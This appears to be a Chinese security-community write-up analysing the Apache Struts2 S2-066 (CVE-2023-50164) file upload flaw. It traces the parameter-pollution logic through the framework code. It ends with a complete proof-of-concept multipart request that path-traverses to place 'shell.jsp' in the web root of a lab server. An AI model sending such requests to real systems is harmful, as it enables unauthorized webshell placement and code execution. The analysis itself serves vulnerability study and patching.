







# 奇安信攻防社区-（ CVE-2023-50164）Apache Struts2 S2-066 文件上传漏洞分析

### （ CVE-2023-50164）Apache Struts2 S2-066 文件上传漏洞分析

Struts2 官方披露 CVE-2023-50164 Apache Struts 文件上传漏洞，攻击者可利用该漏洞污染相关上传参数导致目录遍历，在具体代码环境中可能导致上传 Webshell，执行任意代码。

# 漏洞描述

Apache Struts2 是一个开源的 Java Web 应用程序开发框架，旨在帮助开发人员构建灵活、可维护和可扩展的企业级Web应用程序。近日，Struts2 官方披露 CVE-2023-50164 Apache Struts 文件上传漏洞，攻击者可利用该漏洞污染相关上传参数导致目录遍历，在具体代码环境中可能导致上传 Webshell，执行任意代码。

# 漏洞分析

Struts2的默认配置通常包含`FileUploadInterceptor`，该拦截器负责处理文件上传，并将文件信息封装到相应的Action属性中。

## 正常文件上传

当我们使用默认配置上传文件，尝试路径穿越将文件上传至任意目录，测试发现无法路径穿越到任意目录

我们在`FileUploadInterceptor#intercept()`打下断点，跟进代码

这里跟进`multiWrapper.getFileNames()`

这里继续跟进`getCanonicalName()`

发现获取文件名是通过substring方法进行截取的，通过../../进行目录穿越是不行的。

## 参数污染

回到`FileUploadInterceptor#intercept()`中，在获取文件名后生成了两个变量`contentTypeName`和`fileNameName`

1.  检查每一个文件是否可以被接受(根据配置规则检查,默认全部接受)
    
2.  对可以接受的文件,将其文件名、内容类型和文件内容分别保存到三个List中(acceptedFileNames、acceptedContentTypes和acceptedFiles)
    
3.  如果接受的文件列表不为空,则将这三个List分别封装成Parameter,并存入参数Map中:
    
    -   文件内容列表acceptedFiles 封装成参数 inputName
    -   内容类型列表 acceptedContentTypes 封装成参数 contentTypeName
    -   文件名列表 acceptedFileNames 封装成参数 fileNameName
4.  最后将这个参数Map 设置到上下文的Parameters中，在`ParametersInterceptor#setParameters()`中对这些参数赋值
    

跟进`ParametersInterceptor#setParameters()`

这里采用`HttpParameters.create()`创建参数

而在新版本中，对HttpParameters做出了修改，变成了大小写不敏感，而在存在漏洞的版本中是大小写敏感的。

这导致了这里FileFileName和fileFileName会是不同的参数，都会在`ParametersInterceptor#setParameters()`赋值

而后面采用了使用 OGNL 表达式调用 setter 方法对变量赋值

OGNL 在查找 setter 方法时,会自动把属性名第一个字母变成大写,然后查找 setXxx() 这样的方法。

例如,如果你有一个属性名为 "name",那么 OGNL 会查找 setName() 方法。在这个过程中,不管 name 在 OGNL 表达式中是大写还是小写,都可以正确找到 setter 方法。所以在 Struts 2 的 OGNL 表达式中,属性名的首字母大小写可以不敏感。

所以当我手动传入一个fileFileName参数，在这里也会被赋值，fileFileName和FileFileName参数会被自动映射到同一个参数上。调用相应的get方法获取值时,会取得最后赋值的那个参数的值。

那么这两个参数的赋值先后顺序呢？如果我们手动传入的参数会后赋值，就可以覆盖掉前面的参数，造成参数污染。

在TreeMap中,键(key)的排序是大小写敏感的。默认的排序规则如下:

1.  大写字母会排在小写字母之前
2.  数字会排在字母之前

所以当文件上传的name构造为大写开头，手动传入的污染参数构造为小写开头即可

# 漏洞复现

构造数据包：

POST /s2/upload.action?fileFileName=../webapps/ROOT/shell.jsp HTTP/1.1

Host: 192.168.31.185:8080

Content-Length: 416

Cache-Control: max-age=0

Origin: [http://192.168.31.185:8080](http://192.168.31.185:8080/)

DNT: 1

Upgrade-Insecure-Requests: 1

Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryjYgoTIxv686oqL3F

User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10\_15\_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,\*/\*;q=0.8,application/signed-exchange;v=b3;q=0.7

Referer: [http://192.168.31.185:8080/s2/](http://192.168.31.185:8080/s2/)

Accept-Encoding: gzip, deflate

Accept-Language: zh-CN,zh;q=0.9,en;q=0.8

Connection: close

​

\------WebKitFormBoundaryjYgoTIxv686oqL3F

Content-Disposition: form-data; name="File"; filename="test.jsp"

Content-Type: application/octet-stream

​

test

\------WebKitFormBoundaryjYgoTIxv686oqL3F

Content-Disposition: form-data; name="submit"

​

submit

\------WebKitFormBoundaryjYgoTIxv686oqL3F--

文件上传成功，成功路径穿越到webapps目录下！

